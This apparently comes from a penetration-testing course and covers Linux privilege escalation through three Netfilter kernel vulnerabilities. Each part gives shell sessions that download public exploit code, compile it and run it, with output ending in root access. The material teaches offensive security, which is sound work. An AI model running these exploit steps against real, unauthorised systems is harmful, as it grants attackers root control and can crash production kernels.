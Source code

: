 `Netfilter` is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. `Netfilter` is also called the software layer in the Linux kernel. When network packets are received and sent, it initiates the execution of other modules such as packet filters. These modules can then intercept and manipulate packets. This includes the programs like `iptables` and `arptables`, which serve as action mechanisms of the `Netfilter` hook system of the IPv4 and IPv6 protocol stack.

This kernel module has three main functions:

1. Packet defragmentation
2. Connection tracking
3. Network address translation (NAT)

When the module is activated, all IP packets are checked by the `Netfilter` before they are forwarded to the target application of the own or remote system. In 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), and also in 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), several vulnerabilities were found that could lead to privilege escalation.

Many companies have preconfigured Linux distributions adapted to their software applications or vice versa. This gives the developers and administrators, metaphorically speaking, a "dynamic basis" that is difficult to replace. This would require either adapting the system to the software application or adapting the application to the newer system. Depending on the size and complexity of the application, this can take a great deal of time and effort. This is often why so many companies run older and not updated Linux distributions in production.

Even if the company uses virtual machines or containers like Docker, these are built on a specific kernel. The idea of isolating the software application from the existing host system is a good step, but there are many ways to break out of such a container.

### CVE-2021-22555

Vulnerable kernel versions: 2.6 - 5.11
```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

```shell-session
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root
```

### CVE-2022-25636

A recent vulnerability is [CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/) and affects Linux kernel 5.4 through 5.6.10. This is `net/netfilter/nf_dup_netdev.c`, which can grant root privileges to local users due to heap out-of-bounds write. `Nick Gregory` wrote a very detailed [article](https://nickgregory.me/post/2022/03/12/cve-2022-25636/) about how he discovered this vulnerability.
```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

However, we need to be careful with this exploit as it can corrupt the kernel, and a reboot will be required to reaccess the server.
```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2023-32233

This vulnerability exploits the so called `anonymous sets` in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`. These `nf_tables` are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (`Use-After-Free`) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.

The exploitation is done by manipulating the system to use the `cleared out` anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain `root` privileges.

#### Proof-Of-Concept
```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

#### Exploitation
```shell-session
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```

Please keep in mind that these exploits can be very unstable and can break the system.